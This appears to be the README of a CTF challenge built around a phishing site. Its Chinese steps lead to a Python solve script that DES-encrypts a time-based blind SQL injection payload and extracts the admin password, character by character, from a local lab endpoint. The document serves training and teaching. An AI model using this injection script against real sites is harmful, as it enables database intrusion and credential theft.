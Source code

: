 # Phishing Attack Sample

警告：此题目源码切不可用于非法用途

## 步骤

1. 手机端（或改ua）打开钓鱼页(也可直接抓包看js去，但是钓鱼的前端我们就白伪造了)

2. 抓包看http历史，得到evil js和真实钓鱼网站（可参考（[从钓鱼样本到某大厂存储型XSS](https://xz.aliyun.com/t/2322)或[Anatomy of a Phishing Attack Sample](https://amyang.xyz/posts/Anatomy-of-a-Phishing-Attack-Sample)））

3. 解密evil js知道钓鱼思路并获得des加密的key（前端加密数据包）

4. 普通insert时间盲注钓鱼网站即可获得flag(admin密码)

## Writeup

```python
from Crypto.Cipher import DES
import base64
import requests

def des_ecb_encrypt(key, text):
    des = DES.new(key, DES.MODE_ECB)
    return des.encrypt(text)

def padding(form):
    return form + ("1"*(8-len(form)%8))

def doRequest(payload):
    url = "http://127.0.0.1:8001/f701fee85540b78d08cb276d14953d58"
    try:
        req = requests.post(url,data={"data":payload},timeout=3)
    except:
        return 1

if __name__ == '__main__':
    key = 'MiaoMiao'
    flag = ''
    for i in range(1,39):
        for char in '1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ,_-{}':
            payload = "a'xor if(ascii(substr((select password from admin limit 1),%d,1))=%d,sleep(5),null)='" % (i,ord(char))
            form = "hrUW3PG7mp3RLd3dJu=123456789&LxMzAX2jog9Bpjs07jP=%s&ip="%(payload)
            encrypted = base64.b64encode(des_ecb_encrypt(key, padding(form)))
            if doRequest(encrypted):
                flag += char
                print(flag)
                break
    print(flag)
```

## 部署

`docker-compose up --build`